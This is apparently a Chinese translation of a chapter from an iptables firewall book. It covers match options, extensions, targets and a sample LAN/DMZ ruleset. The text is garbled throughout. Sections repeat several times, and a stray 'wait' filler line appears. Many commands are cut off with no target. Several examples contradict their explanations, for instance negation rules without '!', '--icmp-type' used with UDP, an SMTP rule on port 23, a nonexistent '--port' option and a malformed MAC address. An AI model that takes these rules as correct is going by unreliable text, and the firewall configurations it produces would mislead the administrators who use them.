### 通用匹配

某些匹配只能针对特定类型的数据包进行（例如，在 `UDP` 数据包上检查 `ICMP` 消息类型是没有意义的，且尝试这样做会产生错误）。其他匹配则针对通过 `IP` 传输的所有数据包中的报头进行匹配，并且可以一直使用。接下来的章节将解释这些匹配。

### -s (-src, -source) <address>

此选项将源地址与给定的地址进行匹配，例如：

```
iptables -A INPUT -s 1.2.3.4 -j DROP
```

这主要用于 `INPUT` 链，但如果机器具有多个 `IP` 地址，在 `OUTPUT` 链上也可能有特殊用途。如果给定的地址是主机名，它在被添加到链之前会被解析为 `IP` 地址。如果使用 `IP` 地址，它可以是单个地址，也可以使用子网掩码的范围：

```
iptables -A INPUT -s 192.168.0.0/24 -j DROP
```

此示例指定源地址仅需匹配给定地址的前 24 位。这等同于范围 `192.168.0.0–192.168.0.255`。与 `iptables` 中的其他规则一样，可以使用感叹号对值进行取反。以下规则匹配源地址不为 `10.0.0.5` 的任何数据包：

```
iptables -A INPUT -s 10.0.0.5 -j DROP
```

### -d (--dst, -destination) <address>

此选项匹配数据包上的目的地址，主要用于 `OUTPUT` 链。与 `-s` 选项一样，地址范围可以是主机名、单个 `IP` 地址或范围；并且可以使用取反操作。在接下来的示例中，所有数据包（除源地址为 `192.168.10.4` 的数据包外）都会被拒绝：

```
iptables -A OUTPUT -d 192.168.10.4 -j REJECT
```

### -i (--in-interface) <interface>

这是数据包应到达以进行匹配的接口（例如，`eth0`）。此选项仅在 `PREROUTING`、`INPUT` 和 `FORWARD` 链中有效。该规则的一个常见用途是拒绝源地址对于特定接口错误的数据包。例如，防火墙的外部接口（连接到互联网）不应接收源地址或目的地址在私有范围内（如 `192.168.5.3`）的数据包。`+` 号可以作为通配符，

```
iptables -A INPUT -i eth* -j DROP
```


### 包安全

这主要用于 `INPUT` 链，但如果机器具有多个 IP 地址，在 `OUTPUT` 链上可能有特殊用途。如果给定的地址是主机名，它在被添加到链之前会被解析为 IP 地址。如果使用 IP 地址，它可以是单个地址，也可以使用子网掩码的范围：

```
iptables -A INPUT -s 192.168.0.0/24 -j DROP
```

此示例指定源地址仅需匹配给定地址的前 24 位。这等同于范围 `192.168.0.0`–`192.168.0.255`。与 `iptables` 中的其他规则一样，可以使用感叹号对值进行取反。以下规则匹配源地址不为 `10.0.0.5` 的任何数据包：

```
iptables -A INPUT -s 10.0.0.5 -j DROP
```

#### -d --dst-<destination> <address>

此选项匹配数据包上的目的地址，主要用于 `OUTPUT` 链。与 `-s` 选项一样，地址范围可以是主机名、单个 IP 地址或范围；并且可以使用取反操作。在后续示例中，所有数据包（除源地址为 `192.168.10.4` 的数据包外）都会被拒绝：

```
iptables -A OUTPUT -d 192.168.10.4 -j REJECT
```

#### -i --in-interface <interface>

这是数据包应到达以进行匹配的接口（例如，`eth0`）。此选项仅在 `PREROUTING`、`INPUT` 和 `FORWARD` 链中有效。该规则的一个常见用途是拒绝源地址对于特定接口错误的数据包。例如，防火墙的外部接口（连接到互联网）不应接收源地址或目的地址在私有范围内（如 `192.168.5.3`）的数据包。`+` 号可以作为通配符，

```
iptables -A INPUT -i eth* -j DROP
```

将丢弃任何到达 `eth0`、`eth1`、`eth2` 等接口的包。与之前一样，可以使用感叹号对值进行取反。

#### -o (--out-interface) <interface>

此选项匹配旨在从给定接口离开的数据包。因此，此选项仅在 `POSTROUTING`、`OUTPUT` 和 `FORWARD` 链中有效。`+` 号可以作为通配符，感叹号可以用于反转规则。

允许 `ppp0` 以外的任何接口上的数据包传出：

```
iptables -A OUTPUT -o ppp0 -j ACCEPT
```

#### -f (--fragment)

此选项用于匹配除第一片以外的数据包碎片。如果数据包对于传输介质来说太大，分片有时是必要的，但它也是几种 DoS 攻击的基础。内核（通过 `/proc` 中的设置）通常配置为自动对此类数据包进行去分片（即重组碎片），使得这种匹配方法变得必要。此外，使用连接跟踪会导致数据包在到达 `iptables` 之前自动分片。

#### -p (--protocol) <protocol>

最后一个选项 `-p` 允许你指定正在使用的协议。此选项可以单独使用——例如，丢弃所有入站 UDP 流量（非常极端且不明智的措施）

```
iptables -A INPUT -p udp -j DROP
```

但它通常被用作匹配。在后续示例中，我们使用完整的规则来说明一个选项，但规则的其他部分通常是无关紧要的；因此在示例中

```
iptables -A INPUT -s 1.2.3.4 -j DROP
```

我们并不是说 `-s` 选项（匹配源地址）必须在 `INPUT` 表上使用，或者配合 `DROP` 目标使用。我们认为这比通用语法更清晰地说明用法：

```
iptables [-t <TABLE>] [-A|-D|-X] <chain> -s 1.2.3.4 [-j <TARGET>]
```

### 特定匹配

等待，接下来的章节将解释这些匹配。

#### -s (-src, -source) <address>

此选项将源地址与给定的地址进行匹配，例如：

```
iptables -A INPUT -s 1.2.3.4 -j DROP
```

这主要用于 `INPUT` 链，但如果机器具有多个 IP 地址，在 `OUTPUT` 链上可能有特殊用途。如果给定的地址是主机名，它在被添加到链之前会被解析为 IP 地址。如果使用 IP 地址，它可以是单个地址，也可以使用子网掩码的范围：

```
iptables -A INPUT -s 192.168.0.0/24 -j DROP
```

此示例指定源地址仅需匹配给定地址的前 24 位。这等同于范围 `192.168.0.0`–`192.168.0.255`。与 `iptables` 中的其他规则一样，可以使用感叹号对值进行取反。以下规则匹配源地址不为 `10.0.0.5` 的任何数据包：

```
iptables -A INPUT -s 10.0.0.5 -j DROP
```

#### -d --dst-<destination> <address>

此选项匹配数据包上的目的地址，主要用于 `OUTPUT` 链。与 `-s` 选项一样，地址范围可以是主机名、单个 IP 地址或范围；并且可以使用取反操作。在后续示例中，所有数据包（除源地址为 `192.168.10.4` 的数据包外）都会被拒绝：

```
iptables -A OUTPUT -d 192.168.10.4 -j REJECT
```

#### -i --in-interface <interface>

这是数据包应到达以进行匹配的接口（例如，`eth0`）。此选项仅在 `PREROUTING`、`INPUT` 和 `FORWARD` 链中有效。该规则的一个常见用途是拒绝源地址对于特定接口错误的数据包。例如，防火墙的外部接口（连接到互联网）不应接收源地址或目的地址在私有范围内（如 `192.168.5.3`）的数据包。`+` 号可以作为通配符，

```
iptables -A INPUT -i eth* -j DROP
```

将丢弃任何到达 `eth0`、`eth1`、`eth2` 等接口的包。与之前一样，可以使用感叹号对值进行取反。

#### -o (--out-interface) <interface>

此选项匹配旨在从给定接口离开的数据包。因此，此选项仅在 `POSTROUTING`、`OUTPUT` 和 `FORWARD` 链中有效。`+` 号可以作为通配符，感叹号可以用于反转规则。

允许 `ppp0` 以外的任何接口上的数据包传出：

```
iptables -A OUTPUT -o ppp0 -j ACCEPT
```

#### -f (--fragment)

此选项用于匹配除第一片以外的数据包碎片。如果数据包对于传输介质来说太大，分片有时是必要的，但它也是几种 DoS 攻击的基础。内核（通过 `/proc` 中的设置）通常配置为自动对此类数据包进行去分片（即重组碎片），使得这种匹配方法变得必要。此外，使用连接跟踪会导致数据包在到达 `iptables` 之前自动分片。

#### -p (--protocol) <protocol>

最后一个选项 `-p` 允许你指定正在使用的协议。此选项可以单独使用——例如，丢弃所有入站 UDP 流量（非常极端且不明智的措施）

```
iptables -A INPUT -p udp -j DROP
```


```
iptables -A INPUT -p udp -j DROP
```

但它通常被用作匹配。在后续示例中，我们使用完整的规则来说明一个选项，但规则的其他部分通常是无关紧要的；因此在示例中

```
iptables -A INPUT -s 1.2.3.4 -j DROP
```

### 端口匹配

等待，接下来的章节将解释这些匹配。

### -dport (--destination-port) <port>

此用法与`--sport`完全相同，只是这里它指的是数据包的目的端口，而不是源端口。与之前一样，可以使用范围，并可以使用感叹号对值进行取反。

你可以尝试阻止局域网内的用户连接到通常运行在`6667`到端口的`IRC`服务器：

### --tcp flags <mask> <flags>

此选项指定`TCP`头部中设置的标志，这些标志必须被设置数据包才能匹配。第一个参数是用逗号分隔的标志比较列表；第二个参数是必须设置的标志列表（因此，第一个参数列表中但不在第二个列表中的任何标志必须未设置）。可以使用以下标志：`SYN`、`ACK`、`FIN`、`RST`、`URG`和`PSH`。此外，可以使用`ALL`或`NONE`。

在下面的示例中，`SYN`、`ACK`、`FIN`和`RST`标志是掩码，但`SYN`标志——且仅`SYN`标志——必须设置：

```
iptables -A FORWARD -p tcp --tcp-flags SYN,ACK,FIN,RST SYN -j ACCEPT
```

可以使用感叹号来反转规则的含义：

```
iptables -A FORWARD -p tcp --tcp-flags ! SYN,ACK,FIN,RST SYN -j ACCEPT
```

此示例表明，应该设置`ACK`、`FIN`和`RST`标志，但不应设置`SYN`标志。

## --syn

针对特定的`TCP`标志匹配对于控制入站连接尝试特别有用。建立`TCP`连接的第一个阶段涉及客户端向服务器发送一个设置了`SYN`标志的数据包。通过过滤此类数据包，可以拒绝防火墙对远程主机发起的访问运行在防火墙上的服务的尝试，而允许其他数据包（假设是已建立连接的一部分）通过。这是该选项的一个常见用例，并提供了以`--syn`形式形式的简写：

```
iptables -A FORWARD -p tcp --syn -j ACCEPT

iptables -A FORWARD -p tcp ! --syn -j ACCEPT
```

## --tcp-option <number>

`TCP`选项是`TCP`头部中的可选部分，提供了额外的参数，如窗口缩放、选择性确认和时间戳。可以使用它们的数字`ID`进行匹配：

```
iptables -A INPUT -p tcp --tcp-option 8 -j LOG
```

在这种情况下，`8`指的是时间戳选项，必须设置该选项数据包才能匹配匹配。选项数字列表的完整列表由`IANA`（互联网分配数字机构）维护，可以在`http://www.iana.org/assignments/tcp-parameters`找到。

### UDP 特有匹配

`UDP`是一个无连接协议，因此不使用与`TCP`相关的任何标志。在处理了源地址和目的地址后，剩余用于匹配`UDP`数据包的选项只有源地址和目的地址。只有当通过参数`-p udp`指定了`UDP`时，才能使用这些选项。

## -sport (--source-port) <port> 和 --dport (--destination-port) <port>

与`TCP`端口匹配一样，像下面的示例所示可以使用否定和范围。匹配源端口为`53`的任何`UDP`数据包：

```
iptables -A INPUT -p udp --sport 53 -j ACCEPT
```

记录接收到`0`到`20`范围端口的`UDP`数据包：

```
iptables -A INPUT -p udp --dport :20 -j LOG
```

### ICMP 特有匹配

对于`ICMP`消息，没有源端口和目的端口的概念，我们可以匹配的唯一选项是`ICMP`消息类型。

```
--icmp-type <number>
```

一个常见（但可能过度）的用法是阻止所有入站的`ICMP`回显请求（`ping`）：

```
iptables -A INPUT -p udp --icmp-type 8
```

`ICMP`消息类型的完整列表出现在第 3 章。

### 匹配扩展

除了自动加载的通用和协议特定匹配选项外，还有许多其他匹配项必须使用`-m`选项隐式加载。请注意，与上一节涵盖的匹配项一样，这些选项仅匹配存在的特定值——它们不提供更改值的方法。对于这一点，我们使用已介绍的`mangle`（`mangle`）表。

```
-m --tos <number or name>
```

服务类型（`ToS`）是数据包`IP`头部中的 8 位字段，允许中间路由设备对流量进行原始的优先级排序（例如，为视频会议或音频流等交互式服务提供更高的优先级）。在实践中，`ToS`尚未实现。

`ToS`可以以十进制数、十六进制数或（在某些情况下）作为名称给出。

`Iptables`提供的`ToS`数值如下表所示：

| 名称 | 十进制 | 十六进制 | 典型用途 |
| :--- | :--- | :--- | :--- |
| 最小延迟 (Minimize-Delay) | 16 | 10 | `Telnet` |
| 最小吞吐量 (Minimize-Throughput) | 8 | 08 | `FTP` |
| 最小可靠性 (Minimize-Reliability) | 4 | 04 | `DHCP` |
| 最小成本 (Minimize-Cost) | 2 | 02 | 视频 |
| 正常服务 (Normal-Service) | 0 | 00 | |

在这种情况下，通过允许服务向正确的地址发送包，这种类型的攻击可以被防止：

```
iptables -A OUTPUT -p tcp -m ttl 1 -j

iptables -A OUTPUT -p tcp -m tos 0x2 -j
```


`Iptables` 提供的 `ToS` 数值如下所示：

`ToS` 可以以十进制数、十六进制数或（在某些情况下）作为名称给出。

在这种情况下，通过允许服务向正确的地址发送包，这种类型的攻击可以被防止：

```
iptables -A OUTPUT -p tcp -m ttl 1 -j
iptables -A OUTPUT -p tcp -m tos 0x2 -j
```

在使用这些功能时，这可能很棘手，因为 `TTL` 在通过路由器时会减少。例如：

```
iptables -A OUTPUT -p tcp -m ttl 1 -j
iptables -A OUTPUT -p tcp -m tos 0x2 -j
```

### `--ttl <number>`

数据包的生存时间（`TTL`）定义了数据包可以通过的路由器数量。由于不同的操作系统使用不同的值，这可以识别操作系统。例如，`Linux` 通常使用 64，而 `Windows` 通常使用 128。然而，这可能很棘手，因为 `TTL` 在通过路由器时会减少。

许多操作系统使用的 `TTL` 低于 64。对于源自局域网（`LAN`）的流量，该选项的用处非常有限。例如：

```
iptables -A OUTPUT -p tcp -m ttl 1 -j
iptables -A OUTPUT -p tcp -m tos 0x2 -j
```

许多远程漏洞利用缓冲区溢出在高位端口（受攻击守护的 `UID`）上启动 `shell`。通过只允许服务向正确的地址发送包（例如，`HTTP` 的 80 和 443），这种类型的攻击可以被防止。

这些匹配准则的示例如下：

```
iptables -A OUTPUT -m owner --uid-owner 0 -j
iptables -A OUTPUT -m owner --gid-owner 0 -j
iptables -A OUTPUT -m owner --pid-owner 2425 -j
iptables -A OUTPUT -m owner --sid-owner 2400 -j
```

要使用 `PID` 和 `SID` 匹配功能，用于加载防火墙的脚本可能包含从进程列表中提取特定进程 `PID` 的命令（许多服务会将 `PID` 写入 `/var/run` 目录的文件并在后续规则中使用该值）。记住，如果进程重启（在崩溃时可能会发生），`PID` 将不同，规则将不再生效。

此扩展允许你匹配源地址和目的端口。

### `mac -mac-source <mac address>`

此扩展用于匹配数据包的 `MAC` 地址。因此，它仅适用于 `802.x` 网络（如以太网、调制解调器、`WiFi` 和蓝牙），并且只能用于 `INPUT`、`FORWARD` 和 `PREROUTING` 链：

```
iptables -A INPUT -m mac --mac-source 00:02:A5:70:29 -j ACCEPT
```

### `mark --mark <number>`

`mark` 扩展允许你匹配之前使用 `MARK` 目标标记的数据包。请注意，这些标记由 `Iptables` 创建并维护，并且不会以任何方式更改数据包。

```
iptables -A INPUT -m mark --mark 1 -j LOG
```

### `state --state <options>`

`Iptables` 状态机在第 2 章查看连接跟踪和 `NAT` 时已经涵盖过。当使用连接跟踪时，连接入站和出站数据都存储在内存中（可以通过 `/proc/net/ip_conntrack` 查看），以及它们当前处于的状态：`NEW`（新建）、`ESTABLISHED`（已建立）、`RELATED`（相关）或 `INVALID`（无效）。此扩展允许你匹配这四个状态中的任何一种。例如：

```
iptables -A INPUT -m state --state INVALID -j LOG
```

### `-m limit --limit <rate> [--limit-burst <number>]`

限制规则用于根据数据包发送或接收的速率来匹配数据包。例如：

```
iptables -A INPUT -p icmp -m limit --limit 3/second -j ACCEPT
```

该规则匹配任意秒内接收的前三个 `ICMP` 消息（在此例中将接受它们）；该秒内随后的 `ICMP` 数据包不会被匹配，并将继续由链的其余部分处理。有效的单位有秒、分钟、小时和天；但请注意，以下示例与之前的规则不同：

```
iptables -A INPUT -p icmp -m limit --limit 180/minute -j ACCEPT
```

在这里我们匹配 1 分钟内接收的前 180 个 `ICMP` 消息。这与说 3/s（那是 180/min 的平均值）大不同：在 3 秒内可能会接收到 179 个 `ICMP` 数据包，在 50 秒后又接收一个，而它们仍然会匹配此规则。

限制速率也可以使用感叹号进行反转：

```
iptables -A INPUT -p icmp -m limit --limit 3/second -j LOG
```

这会导致仅在速率超过限制后才进行速率匹配。在示例中，如果我们在 1 秒内接收了三个 `ICMP`，额外的 `ICMP` 将被记录。

速率限制的一个常见用途是在 `DoS` 攻击期间防止日志文件变得过大（这本身也可能导致 `DoS` 攻击）；知道攻击已经发生是有用的，但用成千上万条目（大部分可能来自伪造地址）填充日志文件是没有意义的。

另一个用途（如前面的示例所示）是限制接受或发送出 `ICMP` 消息的速率。这允许你使用 `ICMP`，但防止了攻击者利用它们进行 `DoS` 攻击。

`--limit-burst` 选项提供了更精细的控制，允许你指定要匹配的初始数据包的最大数量。每当未达到速率限制时，该限制就会增加 1，直到达到 `--limit-burst` 指定的最大值；例如：

```
iptables -A INPUT -p icmp -m limit 10/second
--limit-burst 30/m
```

## 目标 (Targets)

目标（`Targets`）规定了规则匹配时要采取的操作。可以使用 15 个内置目标（`built-targets`），或者目标可以指定一个用户定义的链，执行流将传递到该链。在后一种情况下，如果用户定义的链中没有匹配的规则，执行流将传回调用链。

`-j` 选项用于命名目标，对于内置目标，它们全是大写字母。这些目标在随后的章节中进行了描述。

### `ACCEPT (-j ACCEPT)`

这会导致数据包被接受。在此链中不会对该数据包进行进一步处理，尽管如果数据包通过了其他链，则可能会进行处理。

### `DROP (-j DROP)`

在此目标中，数据包被丢弃，且不再发生进一步处理——无论是当前链还是数据包本应通过的其他链。如第 2 章所述（当我们比较 `DROP` 和 `REJECT` 的区别时），不会向数据包的发送者发送任何已丢弃的消息。

### `REJECT (-j REJECT)`

数据包应该被丢弃，并向发送者发送错误消息。默认情况下，会发送一个 `ICMP` 端口不可达（`port unreachable`）消息。可以通过 `--reject-with` 调整此行为：

```
iptables -A INPUT -p icmp -m limit --limit 180/minute -j ACCEPT
```

有效的参数包括：

- `icmp-unreachable`
- `icmp-prohibited`
- `host-unreachable`
- `host-prohibited`
- `net-unreachable`
- `net-prohibited`
- `tcp-rst`
- `tcp-prohibited`


- `host-unreachable`
- `net-unreachable`
- `tcp-unreachable`

- `ICMP`
- `syslog`
- `loglog`
- `debug`
- `flood`
- `probing`

（一个 MySQL 数据库），或用于生成网络使用的统计数据。位于 `http://www.netfilter.org/unreliable-guides/netfilter-hacking-HOWTO/index.html` 的 Netfilter Hacking HOW-TO 提供了关于该目标的更多信息。

## `MIRROR` (`-j MIRROR`)

`MIRROR` 是一个实验性目标，它会反转数据包的源地址和目的地址，从而有效地镜像连接。这可以用于某些场景，例如尝试对你的 `Telnet` 服务器运行漏洞的破解客最终将攻击他自己机器上的 `Telnet` 守护进程。虽然这可能很有趣，但如果攻击者发现两台机器都在使用镜像，他就可能产生 DOS 风险，他可以从一台机器向另一台机器发送伪造包，导致它们来回地“乒乓”。建议你避免使用此目标。

## `TOS` (`-j TOS --set-tos <value>`)

该目标允许修改数据包的 `TOS` 头（参见本章早些时候对 `ToS` 匹配的讨论），从而对流量进行优先级排序。然而，许多路由器并没有实现 `ToS`，因此该目标的使用非常有限。

以下示例为 `SSH` 流量分配了 `TOS` 为 `0x10`（“最小延迟”）：

```
iptables -A OUTPUT -p tcp --dport 22 -j TOS --set-tos 10
```

## `TTL` (`-j TTL --ttl-set| --ttl-dec| --ttl-inc <value>`)

在 `mangle` 表中使用此目标（这是它唯一有效的地方），可以设置通过防火墙的数据包的 `TTL`，或者对其进行相对的增加/减少。

例如，要为来自 `192.158.1.4` 的 Web 服务器的流量赋予更高的 `TTL`：

```
iptables -t mangle -A OUTPUT -p tcp --port 80 -s 192.168.1.4 \
-j TTL --ttl 128
```

## 5.2 创建防火墙规则集

在涵盖了 `Iptables` 可用的语法和选项后，我们现在转到为局域网（`LAN`）实现安全防火墙的任务。你的需求会有所不同，你可能不想使用本节涵盖的所有规则；但是，完整的脚本列在附录 E“加密”中，也可以在 CD-ROM 上找到。

此脚本应与第 2 章中创建的规则结合使用，


该规则提供了 `NAT` 和路由功能（你可能希望将两组规则存储在不同的文件中，以反映它们不同的用途），并且应该在 `NAT` 脚本之后执行。

与第 2 章列出的脚本一样，本节中使用了以下变量：

```
IF_LAN="eth1"
IF_DMZ="eth2"
IF_EXT="eth0"
IP_LAN="192.168.1.1"
IP_DMZ="192.168.0.1"
DMZ_HTTP="192.168.0.3"
DMZ_DNS="192.168.0.2"
DMZ_MAIL="192.168.0.4"
```

## `iptables` 二进制文件的精确路径在不同的 Linux 发行版之间。

`IPT="/usr/local/sbin/iptables"`

请参考第 2 章以了解这些变量的含义（你需要修改它们以反映你网络正在使用的地址）。

## 保护防火墙

第 3 章创建的 `NAT`/防火墙脚本允许对防火墙进行相当开放的：

```
$IPT -A INPUT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
$IPT -A OUTPUT -m state \
  --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

假设会有极少（如果没有）服务正在运行以供利用。然而，仍然有很大的改进空间。

显而易见的解决方案是简单地删除这两个规则，拒绝任何流入和流出机器的流量（但不影响转发流量）。在某些情况下，这可能是合适的，但在许多情况下，它太不灵活了。在本节中，我们查看防火墙通常需要访问的一些服务。我们假设 `INPUT` 和 `OUTPUT` 链仍然保持 `DROP` 的默认策略。

上述提到的两条规则可以重写为：

```
$IPT -A INPUT -m state \
--state ESTABLISHED,RELATED -j ACCEPT
$IPT -A OUTPUT -m state \
--state ESTABLISHED,RELATED -j ACCEPT
```

这允许已建立的流量通过，同时要求新的连接尝试必须由后续规则专门允许。

## `DNS`

如果 `iptables` 规则集包含主机名，则需要 `DNS` 访问来解析它们。如果局域网内部运行着名称服务器，以下规则将允许目的端口为 53 且源端口在非权限范围内的流量连接名称服务器：

```
$IPT -A OUTPUT -o $IF_DMZ -p udp -d $DMZ_DNS --port 53 \
--sport 1024:65535 -j ACCEPT
$IPT -A OUTPUT -o $IF_DMZ -p tcp -d $DMZ_DNS --port 53 \
--sport 1024:65535 -j ACCEPT
```

如果你没有内部名称服务器，而是依靠你的 `ISP` 提供的此服务，这些规则在概念上是相同的；只是这一次接口和目的 `IP` 地址是：

```
$IPT -A OUTPUT -o $IF_DMZ -p udp -d $DMZ_DNS --port 53 \
--sport 1024:65535 -j ACCEPT
$IPT -A OUTPUT -o $IF_DMZ -p tcp -d $DMZ_DNS --port 53 \
--sport 1024:65535 -j ACCEPT
```

如果你需要访问多个名称服务器（出于冗余考虑是个好主意），请重复这些规则并更改相应的地址。

## `SSH`

从防火墙提供 `SSH` 访问通常是一个非常糟糕的主意：如果防火墙被攻破，攻击者就可以控制网络的大部分。理想情况下，对防火墙的访问应限制在控制台上；但为了方便，可能允许从局域网访问：

```
$IPT -A INPUT -i $IF_LAN -p tcp --dport 22
```

## 通过 `iptables` 进行数据过滤

如果可能，这种访问应限制在特定的主机：

```
$IPT -A INPUT -p tcp
```

显而易见的解决方案是简单地删除这两个规则，拒绝任何流入和流出机器的流量（但不影响转发流量）。在某些情况下，这可能是合适的，但在许多情况下，它太不灵活了。在本节中，我们查看防火墙通常需要访问的一些服务。我们假设 `INPUT` 和 `OUTPUT` 链仍然保持 `DROP` 的默认策略。

上述提到的两条规则可以重写为：

```
$IPT -A INPUT -m state \
--state ESTABLISHED,RELATED -j ACCEPT
$IPT -A OUTPUT -m state \
--state ESTABLISHED,RELATED -j ACCEPT
```

这允许已建立的流量通过，同时要求新的连接尝试必须由后续规则专门允许。

## `DHCP`

`DHCP` 在 `UDP` 上运行并使用源端口 68，目的端口 67。当 `DHCP` 客户端需要 `IP` 地址时，向广播地址 `255.255.255.255` 发送 `DISCOVER` 消息。`255.255.255.255` 服务器回复 `OFFER` 消息。客户端发送 `REQUEST`，服务器回复 `ACK`。

为了允许此功能，我们首先需要允许 `DISCOVER` 消息离开防火墙，并允许来自服务器的 `OFFER` 回复进入：

```
$IPT -A OUTPUT -o $IF_EXT -p udp --sport 68 -d 255.255.255.255 -j ACCEPT
$IPT -A INPUT -i $IF_EXT -p udp --dport 67 -s 255.255.255.255 -j ACCEPT
```

为了防止网络上的其他 `ISP` 用户尝试通过设置自己的 `DHCP` 服务器来破坏此设置，应仅允许来自已知服务器（或广播）的回复：

```
$IPT -A INPUT -i $IF_EXT -p udp --sport 67 --dport 68 \
-s <IP of DHCP server> -j ACCEPT
```

由于 `DHCP` 信息源自我们发送 `REQUEST` 的服务器，它们将被状态机标记为 `ESTABLISHED`，并允许进入。

## 保护 `DMZ`


# NAT 脚本定义的规则限制

NAT 脚本定义的规则限制了流入 `DMZ` 的流量某些目的端口，但对 `DMZ` 到互联网或局域网的流量有限制。理想情况下，你只想允许 `ESTABLISHED` 和 `RELATED` 流量离开 `DMZ`，因为从上看，这些服务应该只响应导入请求，而不是创建导出连接。问题是 `DNS` 和 `SMTP` 等服务可能需要创建导出连接；因此仅仅允许 `ESTABLISHED` 和 `RELATED` 流量从 `DMZ` 流向互联网（正如我们对 `DMZ` 到局域网流量所做的那可能会破坏这些服务。在这种情况下，需要更细粒度的规则集。

## DNS

`DNS` 服务器有多种配置方式（我们将在本书后部分回到这个主题），但最常见的安排涉及服务器履行两个目的：回答其权威区域的来自远程主机（或远程名称服务器）的查询，并作为局域网客户端的解析名称服务器。你看到的此类服务离开 `DMZ` 的流量类型有：

- 来自远程客户端/名称服务器的 `DNS` 查询；源端口范围在 1024 到 65535 之间，目的端口为 53。协议可以是 `TCP` 或 `UDP`。
- `DNS` 查询响应；源端口为 53，目的端口为 53。
- 某些 `BIND` 版本使用源端口 53 进行查询，因此某些流量的源端口和目的端口均为 53。

可以使用以下 `Iptables` 规则表示：

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_DNS -p udp \
--sport 1024:65535 --dport 53 -j ACCEPT
```

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_DNS -p udp \
--sport 53 --dport 53 -j ACCEPT
```

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_DNS -p udp \
--sport 53 --dport 1024:65535 -j ACCEPT
```

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_DNS -p tcp \
--sport 1024:65535 --dport 53 -j ACCEPT
```

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_DNS -p tcp \
--sport 53 --dport 53 -j ACCEPT
```

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_DNS -p tcp --sport 53 \
--dport 1024:65535 -j ACCEPT
```

## SMTP

`SMTP` 服务器有两个功能：接收来自远程主机的邮件，以及将局域网内生成的邮件发送到远程 `SMTP` 服务器。两种情况都涉及从非特权端口源到端口 25 的 `TCP` 连接。

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_MAIL -p tcp \
--sport 23 --dport 1024:65535 -j ACCEPT
```

```
$IPT -I FORWARD -o $IF_DMZ -d $DMZ_MAIL -p tcp \
--sport 1024:65535 --dport 1024:65535 -j ACCEPT
```

## 其他服务

前面的 `DNS` 和 `SMTP` 规则都插入到 `FORWARD` 链的顶部，成功匹配后将停止该链的执行。这允许我们修改以下规则（取自第 3 章的 `NAT` 脚本）：

```
$IPT -A FORWARD -i $IF_DMZ -o $IF_EXT -j ACCEPT
```

修改为：

```
$IPT -A FORWARD -i $IF_DMZ -o $IF_EXT -m state \
--state ESTABLISHED,RELATED -j ACCEPT
```

因为这再不再影响 `DNS` 和 `SMTP` 流量。

## ICMP 消息

大多数合法的 `ICMP` 消息都是响应 `TCP` 或 `UDP` 数据包生成的（例如，在发送数据快于接收速度时产生 `SOURCE QUENCH`，或者向关闭的端口发送 `UDP` 数据报时产生 `PORT UNREACHABLE`），它们会被状态机标记为 `RELATED`，允许它们通过防火墙。只有一种不是这种方式生成的 `ICMP` 消息是你可能想要允许的即 `ECHO REQUEST`（ping）：

```
$IPT -I INPUT -p icmp --icmp-type echo-request \
-m limit --limit 180/minute -j ACCEPT
```

如果其他 `ICMP` 消息与已建立的连接相关，则应该接受；但即使如此，你可能也想限制它们的流量速率：

```
$IPT -I INPUT -p icmp --icmp-type ! Echo-request \
-m limit --limit 180/minute -j ACCEPT
```

以下规则每分钟记录最多 50 条 `ICMP` 消息：

```
$IPT -I INPUT -p icmp -m limit --limit 50/minute -j LOG
```

如果每分钟接收超过 50 条消息就不会记录。

## TTL 重写

大多数 `iptables` 规则在匹配数据包时不更改内容，但有时你可能更改数据包头部。例如，你可能想重写离开网络的 `TTL`。如前所述，不同的操作系统使用不同的 `TTL` 值，因此监控离开网络流量的攻击者（由于嗅探或由于数据包目的地是其所有者）可以对局域网的操作系统和可能的网络拓扑进行推断。`TTL` 可以 `-j TTL` 目标进行重写（本章前面提到）：

```
$IPT -A FORWARD -o $IF_EXT -j TTL --ttl 64
```

这会导致所有发往互联网的转发数据包 `TTL` 被修改为 `Linux` 默认的 64。某些指纹工具使用数据包的 `TTL` 值猜测目标操作系统，设置非标准值可能防止这一点。但这无法欺骗 `Nmap` 等高级指纹识别工具。最后，请注意在繁忙的网络中重写所有数据包可能会引入巨大的开销。考虑到这一切，在这种情况下 `TTL` 重写意义不大。

## 阻塞主机

有时你需要阻止某个主机或整个网访问网络。在这种情况下，`DROP` 是最合适的目标。记住 `INPUT` 链仅适用于指向防火墙本身的数据包——而不是转发到局域网内部的数据包，因此规则必须出现在 `FORWARD`（以及 `OUTPUT`）链中。注意我们在任何匹配发生之前在链的顶部插入（`-I`）规则，匹配目的地址的该数据包：

```
$IPT -I INPUT -s 1.2.3 -j DROP
$IPT -I FORWARD -s 1.2.3 -j DROP
```

你也应该阻止发往该地址的输出包：

```
$IPT -I OUTPUT -d 1.2.3 -j DROP
$IPT -I FORWARD -d 1.2.3 -j DROP
```

为想要阻塞的每个主机添加这四个规则很快很快。更好的方法是将主机放在外部文件中，并使用 shell 脚本对文件中的每个主机执行这四个规则：

```
for host in `cat /usr/local/etc/hosts.deny`; do
$IPT -I INPUT -s $host -j DROP
$IPT -I FORWARD -s $host -j DROP
$IPT -I OUTPUT -d $host -j DROP
done
```

现在向此阻塞列表添加新主机只需追加文件 `/usr/local/etc/hosts.deny`（你可以使用任何文件名）。

## 广告服务器

这类规则的主要目的是将攻击者排除在网络之外，另一个用途是阻止广告服务器，这些服务器通过 `Cookie` 用户的浏览。互联网上有几个专门列出广告服务器和其他“不受欢迎”的网站，最好的之一可以在 `http://pgl.yoyo.org/advers/` 找到。该网站上的列表包含超过 1000 个，而且最好的是支持多种格式，包括适用于直接添加到浏览器配置 `/etc/hosts` 文件的格式。对于我们的目的，纯文本是最合适的，允许我们将此列表复制粘贴到现有的 `/usr/local/etc/hosts.deny` 文件中。除了防止这些网站读取，你还将获得更快、更少干扰的浏览，因为这些网站的所有横幅广告都被阻止了。

## 过滤非法地址

某些 `IP` 地址范围应该完全禁止进入或离开网络，因为它们被保留用于特殊用途（如私有地址、多播或实验），在互联网上从未合法出现。这里详细介绍了这些网段及其覆盖范围。

### 私有地址

